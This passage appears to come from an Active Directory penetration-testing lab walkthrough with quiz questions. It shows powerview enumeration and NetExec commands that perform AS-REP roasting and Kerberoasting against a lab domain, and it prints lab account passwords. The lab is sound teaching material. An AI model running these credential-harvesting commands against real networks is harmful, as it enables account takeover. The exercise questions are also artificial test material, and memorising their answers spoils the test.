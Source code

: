 ```
powerview 'James_PARKER.FROM.LG':'november11'@dc.async.local

(LDAPS)-[dc.async.local]-[async\James_PARKER.FROM.LG]
PV > Get-DomainUser -PreAuthNotRequired -Properties sAMAccountName
```

**Q9**: How many users are vulnerable to asreproasting?

We can asreproast all of the above users using the following command:

```
nxc ldap DC.async.local -u 'James_PARKER.FROM.LG' -p 'november11' --asreproast asreproast.out 
LDAP        10.2.10.2       389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:async.local)
LDAP        10.2.10.2       389    DC               [+] async.local\James_PARKER.FROM.LG:november11 
LDAP        10.2.10.2       389    DC               [*] Total of records returned 7
```

**Q10**: What is the password for `Taylor_PARRY@ASYNC.LOCAL`?

### 2.2.2. Kerberoasting

Another attack we can perform is Kerberoasting. This attack targets service accounts that have the `Service Principal Name` (SPN) attribute set. These accounts are often used to run services on the domain, and their passwords are often weak or not changed regularly.

We can enumerate all service accounts in the domain using the following command:

```
powerview 'James_PARKER.FROM.LG':'november11'@dc.async.local

(LDAPS)-[dc.async.local]-[async\James_PARKER.FROM.LG]
PV > Get-DomainUser -SPN -Properties sAMAccountName
sAMAccountName     : svc_vdi
sAMAccountName     : svc_sql
sAMAccountName     : svc_web
```

We can kerberoast all of the above accounts using the following command:

```
nxc ldap DC.async.local -u 'James_PARKER.FROM.LG' -p 'november11' --kerberoast kerberoast.out
```

**Q11**: What is the password for the `svc_web` account?

## 2.1.2. Re-enumerating the Domain

Using the newly acquired users: `svc_web` and `Taylor_PARRY`, we can begin re-enumerating the domain. If you were unable to compromise either of these accounts, you can use the following credentials to access the accounts:

```
Taylor_PARRY : karencita
svc_web : webmaster
```


[fs.async.local]: PS C:\Users\Tyler_ROSE\Documents> whoami